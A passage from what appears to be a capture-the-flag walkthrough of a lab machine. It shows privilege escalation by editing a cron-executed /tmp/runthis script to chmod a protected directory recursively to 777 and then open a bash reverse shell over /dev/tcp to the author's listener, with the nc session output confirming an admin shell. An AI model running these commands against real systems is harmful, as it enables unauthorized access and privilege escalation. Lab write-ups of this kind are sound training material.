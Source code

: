 
> The above statement in summary says there is a cronjob running as an unknown user at `/tmp` with an editable file names `runthis`, that unknown user only has access to run binary files under the `/home/admin/`  directory respectively, this binaries have been specified.


We then need to pick from this binaries for example the `chmod`  command to change modifications of the path probably `/home/admin` which we don't have access to

```bash
bash-4.1$ ls /home/admin
ls: cannot open directory /home/admin: Permission denied
bash-4.1$ nano /tmp/runthis
bash-4.1$ cat /tmp/runthis
#!/bin/bash

/home/admin/chmod 777 /home/admin -R
bash-4.1$ 
```



After 1 minute checking the permissions of the `/home/admin` directory we now have full RWX access


```bash
bash-4.1$ ls -ld /home/admin
drwxrwxrwx. 2 admin admin 4096 Nov 19  2015 /home/admin
bash-4.1$ cd /home/admin
bash-4.1$ pwd
/home/admin
bash-4.1$ ls
cat    cronjob.py       cryptpass.py  echo   grep  whoisyourgodnow.txt
chmod  cryptedpass.txt  df            egrep  ps
bash-4.1$ 
```

We can then attempt to gain a reverse shell as the unknown user by adding `bash` binary to `/home/admin` and then editing the `/tmp/runthis` file with our reverse shell payload, leaving us with a shell as `admin` as seen below.

```bash
bash-4.1$ cp /bin/bash ./
bash-4.1$ chmod 777 bash
bash-4.1$ nano /tmp/runthis 
bash-4.1$ cat /tmp/runthis 
#!/bin/bash

/home/admin/chmod 777 /home/admin -R
/home/admin/bash -i >& /dev/tcp/192.168.0.158/1337 0>&1
bash-4.1$ 

####################################################################
####################################################################

# Wait for reverse shell
❯ nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.0.158] from (UNKNOWN) [192.168.0.134] 42273
bash: no job control in this shell
[admin@localhost ~]$ whoami
whoami
admin
```
